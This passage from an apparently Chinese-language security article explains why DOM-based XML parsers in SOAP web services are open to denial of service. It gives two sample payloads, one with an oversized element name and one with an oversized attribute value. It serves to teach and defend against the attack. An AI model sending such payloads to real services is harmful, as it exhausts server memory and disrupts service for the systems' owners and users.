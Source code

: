 [![](assets/1706957905-ccc4ca37063e6ca5ee79631d4fd57772.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202094243-5baad59c-c16c-1.png)

### 拒绝服务攻击

Web Service 服务的交互很多都是用的 XML 格式数据，请求中的 XML 数据会由服务端的 XML 解析器进行解析和处理，目前主要有两类 XML 解析器

-   基于 SAX(Simple API for XML) 的 XML 解析器：内存中最多容纳 2 个元素，在这种情况下基于 SAX 的解析器不会存在 DoS 问题
-   基于 DOM(Document Object Model) 的 XML 解析器：会一次性读取客户端存储的所有 XML 数据，因此会导致内存中存在庞大的对象数据从而导致存在 DoS 问题，漏洞根源在于没有检查 XML 中节点的大小和数量

针对元素名称的 DoS 攻击的示例：

```plain
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header/>
    <soapenv:Body>
    <TEST>
        <BGABGABGABGABGABGABGABGABGABGABGABGABGABGABGABGA………BGABGABGABGABGABGABGABGABGABGA>
    </TEST>
    </soapenv:Body>
</soapenv:Envelope>
```

针对元素属性的 DoS 攻击的示例：

```plain
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header/>
    <soapenv:Body>
    <TEST>
        <BGA attribute="BGABGABGABGABGABGABGABGABGABGABGABGABGABGABGABGA………BGABGABGABGABGABGABGABGABGABGA"></BGA>
    </TEST>
    </soapenv:Body>
</soapenv:Envelope>
```
